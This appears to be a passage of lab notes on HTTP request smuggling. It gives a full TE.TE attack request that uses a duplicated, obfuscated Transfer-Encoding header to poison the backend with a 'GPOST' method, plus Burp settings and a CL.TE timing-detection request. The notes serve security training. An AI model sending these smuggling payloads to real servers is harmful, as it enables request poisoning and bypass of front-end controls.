 So we send the attack req and the backend used CL header and therefore the backend is now poisoned with `G\r\n0\r\n\r\n`
And now we send a normal req and we see: 403 Forbidden: Unrecognized method G0POST

So now all we need to do is to change G0POST to GPOST to solve the lab

Final attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: foobar
\r\n
5c\r\n
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
\r\n
x=1\r\n
0\r\n
\r\n
```

`5c` is a hex value which indicates the length of the subsequent chunk, which is everything starting from GPOST up until but not including `\r\n0\r\n\r\n`

And normal req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
\r\n
foo=bar
```

So now we send our attack req, and normal req
and we get back: Unrecognized method GPOST

In burp don't forget to downgrage to http1: Inspector > req attributes > http1
And also in burp disable Update content length

### Finding HTTP request smuggling vulnerabilities
### Finding HTTP request smuggling vulnerabilities using timing techniques
### Finding CL.TE vulnerabilities using timing techniques
If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay. 
